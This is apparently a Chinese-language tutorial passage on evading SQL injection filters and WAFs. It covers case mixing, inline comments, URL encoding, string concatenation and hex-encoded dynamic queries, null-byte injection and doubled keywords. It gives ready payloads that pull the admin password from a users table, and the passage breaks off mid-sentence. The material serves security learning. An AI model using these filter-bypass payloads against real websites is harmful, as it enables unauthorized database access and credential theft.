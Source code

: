 ## 大小写变化
sql语言是不区分大小写额度，所以可以通过变换攻击字符中的大小写来避开他们，从而实现绕过前端。由于前端可能对关键字段如amd select union这些sql字段进行了过滤，所以如果上传了这些单词可定是不能通过过滤的，但是php，java，python这些都是区分大小写的高级语言。而sql是不区分大小写的。因此，打乱了某个字段的大小写，也就是可以变相绕过后台的过滤，从而直接到达数据库。
举例：当order被过滤的时候，使用Order可以跳过过滤。
1. 选择合适的大小写。如order被过滤，则使用Order
<img src="../pictures/cbctpf50vmm.png" width="600" />
查询出来一共有三个字段。
<img src="../pictures/8fa0d224hsw.png" width="600" />
2. 选择合适的大小写Union，从而跳过union字段的过滤。从而获取到数据。


## 使用sql注释
1. 使用注释代替空格

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


2. 使用内部连接注释
举例子：以下一句sql

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


可以改写成

```sql
/**/un/**/ion/**/se/**/lect/**/password/**/fr/**/om/**/tblUsers/**/wh/**/ere/**/uusername/**/li/**/ke/**/'admin'
```


.因此可以看出，我们可以使用内联注释来对关键字符进行拆分，从而实现越过过滤器

## 使用url编码

用URL编码来逃避过滤。有以下一条sql语句

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


如果过滤器对“/*”进行了过滤，那么这条语句肯定是不能通过，随意可以将其转换为

```sql
%2f%2a*/union%2f%2a*/select%2f%2a*/password%2f%2a*/from%2f%2a*/tblUsers%2f%2a*/where%2f%2a*/uusername%2f%2a*/like%2f%2a*/'admin'
```


对关键字符进行url编码，从而实现过滤。如果一次不行们可以进行两次甚至多次url编码，但只要记住只是对关键字符进行url编码。其中为什么多次url编码可以实现，这个是由于web应用有时候多次解码

unicode编码方式  
由于unicode编码方式的复杂性，所以解码器是啊按照最近匹配原则进行匹配unicode匹配编码。

## 使用动态查询执行


简单来说，就是将sql语句存储到一个变量中，然后执行这条sql语句。其中的关键之处在于sql语句是字符串形式，这也就代表着有多种方法可以构造字符串。
1. 连接字符串
Oracel ： 'sel'||'et' $\rightarrow$ 'select'
Mysql : 'sel''ect' $\rightarrow$ 'select'

2. 使用ascii码
'select' $\rightarrow$ char(83)+char(69)+char(76)+char(69)+char(67)+char(84)

3. 使用sql字符串的ascii十六进制来代替字符串
```sql
select password from tblUsers
```
SQL SERVER 也可以按照以下形式进行构造
```
DECLARE @query varchar(100);
SELECT @query = 0x53454C454354202A2046524F4D2074626C7573657273
exec(@query)
```
其中 0x53454C454354202A2046524F4D2074626C7573657273就是SELECT * FROM tblusers的16进制。


```{.python .input  n=8}
for i in "SELECT password FROM tblUsers":
    print(int(str(ord(i))),end="")
```

```{.json .output n=8}
[
 {
  "name": "stdout",
  "output_type": "stream",
  "text": "83697669678432112971151151191111141003270827977321169810885115101114115"
 }
]
```

## 使用空字符
由于过滤器一般都是存在于自生代码之外，比如WAF与IDS。而这些组件与原来的后台的编写语言是不同的，由于不同语言之间存在差异，可以使用这些微小差异进行绕过过滤。其中比较重要的一点就是可以使用空字符进行注入。原生过滤在遇到%00就会停止读取，也就能够绕过过滤了。比如
```sql
%00' union select password from tblusers where username='admin'--
```
从而实现空字符隔断注入


## 双写绕过注入
当前台不采用匹配过滤，而采用匹配删除的情况来使用的时候。比如and就会被删除and，那么则使用anand.这样子只有被过滤了才算成功注入。即从anand中删除and。变成了另外一个and。
举例，过滤了关键词or。
<img src="../pictures/4y1vk21iflq.png" width="600" />

## 利用截断
过滤器通常会对输入数据截断，并且设置最大长度。这是为了防止缓冲区溢出攻击。而一般过滤器都是先对s
